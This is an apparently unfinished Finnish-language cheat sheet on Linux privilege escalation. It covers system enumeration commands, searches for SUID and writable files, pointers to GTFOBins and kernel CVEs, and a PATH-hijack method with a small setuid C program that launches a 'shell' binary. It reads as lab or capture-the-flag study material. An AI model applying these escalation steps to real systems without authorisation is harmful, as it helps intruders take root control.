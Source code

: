 ## Privilege Escalation

Käyttöoikeuksien nostaminen tapahtuu, kun ensimmäinen jalansija ja alhaisen tason käyttäjätunnus on saatu haltuun.
Tavoite on saada lisää oikeuksia ja päästä mahdollisesti liikkumaan kohdejärjetelmän osiin, joihin ensimmäisellä kaapatulla käyttäjätunnuksella ei välttämättä ole oikeuksia.
Ideaalitavoite on saada root- (Linux) tai Administrator- (Windows) tason oikeudet.

Käyttöoikeuksia voidaan nostaa monella tavalla, riippuen kohdejärjestelmästä.
Usein käyttöoikeuksien nostamisen mahdollistaa väärin konfiguroidut käyttöoikeudet tai haavoittuvat järjestelmän osat.

**Kohdejärjestelmän kartoitus**
```bash
hostname ## Voi löytyä tietoa järjestelmän käyttötarkoituksesta
uname -a ## Kernel -versio
cat /etc/issue ## Voi löytyä tietoa käyttöjärjestelmästä 
cat /proc/version ## Tietoa prosesseista, kernelistä, ja esim. onko compiler (esim. gcc) asennettu
ps ## Process Status, pyörivät prosessit. "ps -A" = kaikki, "ps axjf" = prosessipuu
env ## Ympäristömuuttujat, esim. PATH
sudo -l ## Kaikki komennot, jota käyttäjä voi ajaa sudona
ls -la ## Normaali ls ei näytä piilotettuja tiedostoja
id ## Käyttäjän tiedot ja ryhmä
ifconfig ## Verkkoliikennetietoja
netstat ## Muodostetut yhteydet, "netstat -a" = Kaikki, "netstat -l" = Yhteydettä odottavat. Voi lisätä t (TCP) tai u (UDP), esim. "netstat -at"
```
Find -komentoja (lisää loppuun 2>/dev/null, siistii virheviestit pois)
```bash
find / -name flag1.txt ## Etsi tiedosto flag1.txt
find / -type d -name config ## Etsi kansio config
find / -type f -perm 0777 ## Luku, kirjoitus, suorita -tiedostot kaikille käyttäjille
find / -perm a=x ##  Suoritettavat tiedostot
find / -perm -u=s -type f ## SUID -bittiset tiedostot 
```

**Kernel-haavoittuvuudet**

https://www.linuxkernelcves.com/cves

**Sudo-haavoittuvuudet**
Listaa käyttäjän sudo-oikeudella ajettavat ohjelmat:
```bash
sudo -l
```
Jos löytyy jotain, täältä hyväksikäyttötavat:
https://gtfobins.github.io/

**SUID-haavoittuvuudet**
Ohjelmat, joissa SUID-bitti asetettu:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Jos löytyy mielenkiintoisen näköisiä, tarkistetaan GTFObinsistä.

**PATH -haavoittuvuudet**
```bash
echo $PATH
```
Kansiot, joihin kirjoitusoikeus:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u
```
Jos PATH-muuttujassa on kansio, johon käyttäjä pääsee kirjoittamaan, voidaan ko. kansiosta ajaa ohjelma root-oikeuksilla.

Kansion lisääminen PATH-muuttujaan:
```bash
export PATH=/tmp:$PATH
```
Ohjelma etsii PATH-kansioista "shell" -nimistä ohjelmaa:

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("shell");
}
```
```bash
gcc koodi.c -o koodi -w
```
--Lisää ohje SUID-bitistä ym.--
